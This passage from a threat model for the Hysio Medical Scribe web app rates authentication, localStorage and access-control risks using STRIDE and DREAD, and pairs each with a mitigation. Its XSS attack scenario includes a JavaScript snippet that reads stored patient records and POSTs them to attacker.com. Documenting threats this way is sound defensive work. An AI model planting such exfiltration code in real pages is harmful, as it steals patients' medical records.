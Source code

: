 ### 1. Authentication & Authorization Threats

#### T1.1: Missing Authentication Layer
**Current State**: ❌ NO AUTHENTICATION IMPLEMENTED
**Description**: Anyone with URL access can use Hysio Medical Scribe
**Impact**: Unauthorized access to create/view medical records
**STRIDE**: Spoofing, Information Disclosure
**DREAD Score**: 9.2 (Critical)
- Damage: 10 (full data breach possible)
- Reproducibility: 10 (trivial)
- Exploitability: 10 (no barrier)
- Affected Users: 10 (all users)
- Discoverability: 8 (publicly accessible URLs)

**Attack Scenario**:
```
1. Attacker discovers Hysio URL via search engine or social media
2. Navigates to /scribe without login
3. Creates fake patient records with malicious content
4. Exports records as PDF, spreading misinformation
5. No audit trail of who created what
```

**Mitigation**: P0 - Implement authentication (see [M1.1](#m11-implement-nextauth-authentication))

#### T1.2: Session Hijacking via localStorage
**Current State**: ⚠️  Patient data stored in unencrypted localStorage
**Description**: localStorage accessible via XSS or local access
**STRIDE**: Information Disclosure, Tampering
**DREAD Score**: 7.4 (High)

**Attack Scenario**:
```javascript
// Malicious script injected via XSS
const storedData = localStorage.getItem('hysio-scribe-v1');
fetch('https://attacker.com/exfil', {
  method: 'POST',
  body: storedData // Contains patient medical records
});
```

**Mitigation**: M1.2 - Encrypt sensitive data in localStorage, migrate to secure session storage

#### T1.3: No Role-Based Access Control (RBAC)
**Current State**: ❌ NO RBAC
**Description**: No distinction between therapist, admin, patient roles
**STRIDE**: Elevation of Privilege
**DREAD Score**: 8.0 (High)

**Mitigation**: M1.3 - Implement RBAC with minimum 3 roles (Patient, Therapist, Admin)

---

### 2. Data Protection Threats
